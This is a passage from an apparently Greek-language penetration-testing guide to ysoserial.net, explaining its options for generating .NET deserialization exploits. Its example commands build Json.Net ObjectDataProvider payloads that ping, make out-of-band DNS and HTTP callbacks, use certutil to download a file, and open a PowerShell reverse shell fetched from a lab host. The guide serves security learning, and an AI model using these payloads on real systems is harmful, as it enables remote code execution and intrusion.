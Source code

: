 Αν θέλετε να μάθετε για **πώς δημιουργεί το ysoserial.net την εκμετάλλευσή του** μπορείτε να [**ελέγξετε αυτή τη σελίδα όπου εξηγείται το gadget ObjectDataProvider + ExpandedWrapper + Json.Net formatter**](basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net.md).

Οι κύριες επιλογές του **ysoserial.net** είναι: **`--gadget`**, **`--formatter`**, **`--output`** και **`--plugin`.**

* **`--gadget`** χρησιμοποιείται για να υποδείξει το gadget που θα εκμεταλλευτεί (υποδείξτε την κλάση/συνάρτηση που θα εκμεταλλευτεί κατά την αποσυναρμολόγηση για να εκτελέσει εντολές).
* **`--formatter`**, χρησιμοποιείται για να υποδείξει τη μέθοδο για τη σειριοποίηση της εκμετάλλευσης (πρέπει να γνωρίζετε ποια βιβλιοθήκη χρησιμοποιεί το back-end για να αποσυναρμολογήσει το payload και να χρησιμοποιήσετε την ίδια για να το σειριοποιήσετε)
* **`--output`** χρησιμοποιείται για να υποδείξει αν θέλετε την εκμετάλλευση σε **raw** ή **base64** κωδικοποιημένη. _Σημειώστε ότι το **ysoserial.net** θα **κωδικοποιήσει** το payload χρησιμοποιώντας **UTF-16LE** (κωδικοποίηση που χρησιμοποιείται από προεπιλογή στα Windows) οπότε αν πάρετε το raw και το κωδικοποιήσετε απλά από μια κονσόλα linux μπορεί να έχετε κάποια **προβλήματα συμβατότητας κωδικοποίησης** που θα εμποδίσουν την εκμετάλλευση να λειτουργήσει σωστά (στην HTB JSON box το payload λειτούργησε και σε UTF-16LE και ASCII αλλά αυτό δεν σημαίνει ότι θα λειτουργεί πάντα)._
* **`--plugin`** το ysoserial.net υποστηρίζει plugins για τη δημιουργία **εκμεταλλεύσεων για συγκεκριμένα πλαίσια** όπως το ViewState

#### Περισσότερες παράμετροι ysoserial.net

* `--minify` θα παρέχει ένα **μικρότερο payload** (αν είναι δυνατόν)
* `--raf -f Json.Net -c "anything"` Αυτό θα υποδείξει όλα τα gadgets που μπορούν να χρησιμοποιηθούν με έναν παρεχόμενο formatter (`Json.Net` σε αυτή την περίπτωση)
* `--sf xml` μπορείτε να **υποδείξετε ένα gadget** (`-g`) και το ysoserial.net θα αναζητήσει formatters που περιέχουν "xml" (χωρίς διάκριση πεζών-κεφαλαίων)

**Παραδείγματα ysoserial** για τη δημιουργία εκμεταλλεύσεων:
```bash
#Send ping
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 5 10.10.14.44" -o base64

#Timing
#I tried using ping and timeout but there wasn't any difference in the response timing from the web server

#DNS/HTTP request
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "nslookup sb7jkgm6onw1ymw0867mzm2r0i68ux.burpcollaborator.net" -o base64
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "certutil -urlcache -split -f http://rfaqfsze4tl7hhkt5jtp53a1fsli97.burpcollaborator.net/a a" -o base64

#Reverse shell
#Create shell command in linux
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.44/shell.ps1')" | iconv  -t UTF-16LE | base64 -w0
#Create exploit using the created B64 shellcode
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQANAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=" -o base64
```
**ysoserial.net** έχει επίσης μια **πολύ ενδιαφέρουσα παράμετρο** που βοηθά να κατανοήσετε καλύτερα πώς λειτουργεί κάθε εκμετάλλευση: `--test`\
Αν υποδείξετε αυτή την παράμετρο, **ysoserial.net** θα **δοκιμάσει** την **εκμετάλλευση τοπικά,** ώστε να μπορείτε να ελέγξετε αν το payload σας θα λειτουργήσει σωστά.\
Αυτή η παράμετρος είναι χρήσιμη γιατί αν αναθεωρήσετε τον κώδικα θα βρείτε κομμάτια κώδικα όπως το παρακάτω (από [ObjectDataProviderGenerator.cs](https://github.com/pwntester/ysoserial.net/blob/c53bd83a45fb17eae60ecc82f7147b5c04b07e42/ysoserial/Generators/ObjectDataProviderGenerator.cs#L208)):
```java
if (inputArgs.Test)
{
try
{
SerializersHelper.JsonNet_deserialize(payload);
```